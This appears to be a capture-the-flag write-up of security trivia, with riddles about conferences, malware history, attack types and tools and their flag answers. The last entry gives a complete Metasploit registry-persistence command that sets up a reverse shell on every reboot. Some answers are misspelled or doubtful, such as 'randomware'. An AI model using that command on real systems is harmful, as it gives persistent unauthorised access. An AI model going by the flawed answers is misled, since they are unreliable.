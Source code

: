 ### Business Gathering 

```tex
I am a huge cyber security conference that run every year in three places : San Francisco, Singapore and Lately AbuDhabi. Who am I ? No spaces in answering
```
- Flag: RSAConference

### Hackers Gathering

```tex
I am a cyber security conference that run in August every year in Las Vegas. I am the largest gathering for Hackers in the whole world. No Credit cards, no online booking , Only Cash allowed . Who am I ?
```
- Flag: defcon

### Founder

```tex
I have founded two of the most famous Cyber Security conferences across the globe in Las Vegas, USA. I am not The Dark Knight. I am The DarK--------?
```
- Flag: tangent

### Back To History

```tex
Back to History: I am the First Computer Virus ever known . You will find me in your head . My name is ……..?
```
- Flag: brain

### Contribute

```tex
I am an Organization that releases the Top 10 Vulnerabilities in Application Security . I am ……?
```
- Flag: OWASP

###  Greeks

```tex
The art of hiding messages or information inside other image / text or data
```
- Flag: steganography

###  Robot

```tex
A group or network of machines that are controlled by an attacker to do a certain task
```
- Flag: bot

### Japanese Warrior

```tex
I am a linux distrubition with two versions one for Web Penetration Testing and the other for attacking smart grids. What is my smart grid distribution name ?
```
- Flag: SamuraiSTFU

### Close Look

```tex
I am a linux distribution that has many tricks to do packet and traffic analysis. Who am I ?
```
- Flag: Packetrix

### Pay Me

```tex
I will lock your machine screen or files till you pay me. Who am i ?
```
- Flag: randomware

### TrendMicro Conference

```tex
Periodic Conference in many cities hosted by Trend Micro
```
- Flag: CLOUDSEC

## Intercept

```tex
the attacker intercept information between receiver and sender. what is the attack name ?
```
- Flag: mitm

## Do you trust senders

```tex
Receive malware from a known person. What is the attack type ?
```
- Flag: spoofing

## My box

```tex
I am a professional pen tester. I do not need to know any information from the customer, I do ....box pen test
```
- Flag: black

## Crash

```tex
enter a lot of random trash till the application crash
```
- Flag: fuzzing

## Scan

```tex
One of the famous, free port scanner. Who am i ?
```
- Flag: nmap

## Capture

```tex
Network analysis tool used to captured packets and present it in readable format
```
- Flag: wireshark

## Precious Vulnerability

```tex
a security flaw that is not yet known
```
- Flag: zeroday

## SCADA

```tex
A worm that targeted SCADA Systems
```
- Flag: Stuxnet

## htmlentities

```tex
True or False , htmlentities ( convert special characters to its html entity ) can't be exploited to run XSS payload ?
```
- Flag: False

## Encoding

```tex
What type of this encoded , hashed text "aGVsbG93b3JsZDEx" ?
```
- Flag: base64

## Reward

```tex
I receive a reward or mentioned on a wall of fame when i found vulnerability . I am participating in ..... program? Format of Flag ( Do not use spaces)
```
- Flag: bugbounty

## Hide me

```tex
I act as a middle man to forward requests from different devices to access external resources . I am a ......?
```
- Flag: proxy

## Cash

```tex
I am a type of attacks that used to spread malware. I push data in the cache records of your DNS. I am cache ........?
```
- Flag: poisoning

## User Name

```tex
He is a user name or account that by default has access to all commands and files on a Linux or other Unix-like operating system.
```
- Flag: root

## Crime scene

```tex
Process of analyzing and investing computer devices, on suspecting that such devices may have been used in a cybercrime
```
- Flag: forensics

## CVE Number

```tex
What is the CVE ID that is related to EternalBlue
Flag Format: XXX-XXXX-XXXX
```

- Flag: CVE-2017-0144

## one click

```tex
a type of malicious exploit of a website where unauthorized commands are submitted from a user that the web application trusts .
```
- Flag: CSRF

## remove

```tex
I need to remove a file called secret in my home directory. which command should i use 
```
- Flag: rm ~/secret

## Distribution

```tex
Debian-based distribution with a collection of security and forensics tools. It features timely security updates, support for the ARM architecture
The flag without spaces 
```
- Flag: KaliLinux

## security model

```tex
is a model designed to guide policies for information security within an organization
```
- Flag: CIA

## Persistence

```tex
You want to achieve persistence using Meterpreter’s persistence module by creating an autorun registry file and getting a shell automatically every time the user restarts the PC

Persistence options 

    Minutes after restarting the system: 7 
    Your Local port: 1337
    Your local host IP: 192.168.0.177

Flag format is: xxx xxxxxxx/xxxxxxx/xxxxx/xxxxxxxx_xxxxxxxxxxx xxxxx_xxxx=xxx  xxxxx=xxxx xxxxx=xxx.xxx.x.xxx
```
- Flag: use exploit/windows/local/registry_persistence SLEEP_TIME=420 LPORT=1337 LHOST=192.168.0.177
